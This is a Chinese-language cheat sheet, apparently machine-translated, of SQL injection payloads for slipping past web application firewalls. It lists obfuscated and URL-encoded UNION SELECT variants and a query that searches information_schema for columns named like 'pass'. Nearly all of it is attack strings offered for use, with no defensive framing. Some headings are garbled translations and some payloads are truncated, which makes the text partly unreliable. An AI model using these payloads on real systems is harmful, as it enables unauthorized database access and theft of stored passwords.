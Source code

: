 应用程序可能会根据清单或白名单执行一些过滤。您总是可以尝试用下面提到的字符串替换查询字符串，以绕过任何此类限制。

![](img/24d4b6cc37131903c090cf798a91f111.png)

## **1。晶圆旁路串:**

`/*!%55NiOn*/ /*!%53eLEct*/ %55nion(%53elect 1,2,3)-- - +union+distinct+select+ +union+distinctROW+select+ /**//*!12345UNION SELECT*//**/ concat(0x223e,@@version) concat(0x273e27,version(),0x3c212d2d) concat(0x223e3c62723e,version(),0x3c696d67207372633d22) concat(0x223e,@@version,0x3c696d67207372633d22) concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e) concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22) concat(‘’,@@version,’’) /**//*!50000UNION SELECT*//**/ /**/UNION/**//*!50000SELECT*//**/ /*!50000UniON SeLeCt*/ union /*!50000%53elect*/ +#uNiOn+#sEleCt +#1q%0AuNiOn all#qa%0A#%0AsEleCt /*!%55NiOn*/ /*!%53eLEct*/ /*!u%6eion*/ /*!se%6cect*/ +un/**/ion+se/**/lect uni%0bon+se%0blect %2f**%2funion%2f**%2fselect union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A REVERSE(noinu)+REVERSE(tceles) /*--*/union/*--*/select/*--*/ union (/*!/**/ SeleCT */ 1,2,3) /*!union*/+/*!select*/ union+/*!select*/ /**/union/**/select/**/ /**/uNIon/**/sEleCt/**/ /**//*!union*//**//*!select*//**/ /*!uNIOn*/ /*!SelECt*/ +union+distinct+select+ +union+distinctROW+select+ +UnIOn%0d%0aSeleCt%0d%0a UNION/*&test=1*/SELECT/*&pwn=2*/ un?+un/**/ion+se/**/lect+ +UNunionION+SEselectLECT+ +uni%0bon+se%0blect+ %252f%252a*/union%252f%252a /select%252f%252a*/ /%2A%2A/union/%2A%2A/select/%2A%2A/ %2f**%2funion%2f**%2fselect%2f**%2f union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A /*!UnIoN*/SeLecT+`

**2。使用 Url 编码方法通过联合选择:** `%55nion(%53elect) union%20distinct%20select union%20%64istinctRO%57%20select union%2053elect %23?%0auion%20?%23?%0aselect %23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect %55nion %53eLEct u%6eion se%6cect unio%6e %73elect unio%6e%20%64istinc%74%20%73elect uni%6fn distinct%52OW s%65lect %75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7`

**3。非法混合排序规则绕过方法:** `unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name)))`

`/*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)`

`union select 1,2,unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name))),4,5 /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)?`

